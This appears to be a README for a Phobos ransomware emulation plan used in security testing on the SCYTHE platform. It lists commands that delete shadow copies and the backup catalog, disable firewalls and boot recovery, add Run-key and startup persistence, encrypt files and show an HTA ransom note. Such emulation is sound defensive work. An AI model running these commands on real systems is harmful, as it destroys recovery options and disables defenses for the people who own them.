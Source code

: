 # Phobos Ransomware Adversary Emulation Plan

This threat is based on the BlackBerry blog post: https://blogs.blackberry.com/en/2021/09/threat-thursday-phobos-ransomware

## Emulate with SCYTHE
**Note this threat, if executed with administrative privileges, will delete Volume Shadow Copies and modify bootup. For testing purposes, you may want to test in non-production, make an offline backup, and/or or take a snapshot. 

1. Download and import the threat in JSON format to your SCYTHE instance 
2. Download the Virtual File System (VFS) files under the VFS folder
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Phobos
4. Create a new campaign
5. Import from Existing Threat: Phobos
6. Launch Campaign
7. Download the 32-bit EXE payload generated by SCYTHE 
8. Rename the file to horsemoney.exe
9. Execute horsemoney.exe (it will try to escalate privileges on its own)

## Manual Emulation with SCYTHE
1. loader --load run
2. loader --load file
3. controller --integrity
4. Decision: if running elevated, go to step 9
5. loader --load elevate
6. elevate --prompt
7. controller --integrity
8. Decision: if not running elevated, go to step 20
9. STEP = DEFENSE EVASION
10. run vssadmin delete shadows /all /quiet
11. run netsh advfirewall set currentprofile state off
12. run netsh firewall set opmode mode=disable
13. run wmic shadowcopy delete
14. run bcdedit  /set {default} bootstatuspolicy ignoreallfailures
15. run bcdedit  /set {default} recoveryenabled no
16. run wbadmin delete catalog -quiet
17. STEP = PERSISTENCE
18. file --create --path "%AllUsersProfile%\Microsoft\Windows\Start Menu\Programs\StartUp\horsemoney.exe" --size 1MB --count 1 --random
19. run cmd /c REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /v Example /d "Phobos Data" /f
20. file --create --path "%LocalAppData%\horsemoney.exe" --size 1MB --count 1 --random
21. file --create --path "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\horsemoney.exe" --size 1MB --count 1 --random
22. run cmd /c REG ADD HKEY_CURRENT_USER\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /v Example /d "Phobos Data" /f
23. STEP = IMPACT
24. run cmd /c mkdir "%USERPROFILE%\Desktop\Phobos"
25. file --create --path "%USERPROFILE%\Desktop\Phobos\target_file.xls" --size 1MB --count 100 --random
26. loader --load crypt
27. crypt --target "%USERPROFILE%\Desktop\Phobos\" --encrypt --password "#RansomwareSucks" --erase
28. file --create --path "%USERPROFILE%\Desktop\Phobos\encryptedfile.HORSEMONEY" --size 1MB --count 1 --random
29. loader --load downloader
30. downloader --src "VFS:/shared/threats/Phobos/info.hta" --dest "%USERPROFILE%\Desktop\Phobos\info.hta"
31. run mshta.exe "%USERPROFILE%\Desktop\Phobos\info.hta" &
32. STEP = CLEANUP
33. run cmd /c del "%LocalAppData%\horsemoney.exe"
34. run cmd /c del "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\horsemoney.exe"
35. run cmd /c REG DELETE HKEY_CURRENT_USER\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /f
36. run cmd /c rmdir /Q /S "%USERPROFILE%\Desktop\Phobos"
37. controller --shutdown